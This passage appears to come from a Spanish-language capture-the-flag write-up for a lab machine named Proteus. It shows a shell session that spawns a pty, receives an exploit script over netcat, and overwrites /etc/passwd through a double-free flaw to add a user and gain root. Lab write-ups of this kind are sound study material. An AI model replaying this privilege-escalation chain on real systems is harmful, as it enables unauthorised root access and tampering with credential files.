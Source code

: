 ```bash
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Proteus:/home/malwareadm/samples$ nc -l 12000 > adduser.sh
www-data@Proteus:/home/malwareadm/samples$ nc -l 12000 > passwd.txt
www-data@Proteus:/home/malwareadm/samples$ chmod +x adduser.sh
www-data@Proteus:/home/malwareadm/samples$ ./adduser.sh
./adduser.sh
Writing datafile 0x8ca61d0: '/etc/passwd'
*** Error in `/home/malwareadm/sites/proteus_site/admin_login_logger': double free or corruption (!prev): 0x08ca6008 ***
======= Backtrace: =========
...
www-data@Proteus:/home/malwareadm/samples$ su prueba
su prueba
Password: toor

root@Proteus:/home/malwareadm/samples#
```

¡¡¡Objetivo conseguido!!!

La bandera se encuentra en */root/flag.png*

![Flag]({{ site.url }}/assets/proteus_flag.png "Flag")

